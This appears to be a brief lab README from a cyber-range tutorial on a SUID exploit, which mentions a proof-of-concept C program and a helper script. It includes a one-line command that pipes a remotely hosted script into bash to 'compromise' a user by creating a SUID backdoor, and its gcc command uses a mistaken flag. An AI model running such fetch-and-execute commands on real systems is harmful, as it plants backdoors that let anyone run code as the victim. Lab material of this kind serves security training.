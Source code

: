 # SUID Exploit Cliff-Notes

The malicious.sh is a shell script called by the poc.
The poc.c is compiled into poc.
	`gcc -i poc poc.c`

The user is compromised by performing: 
wget -O - https://raw.githubusercontent.com/cappetta/CyberRange/master/tutorials/seed/suid/getme.sh | bash

This creates a suid exposed vulnerability on the user, allows anyone to execute a shell script as the user.

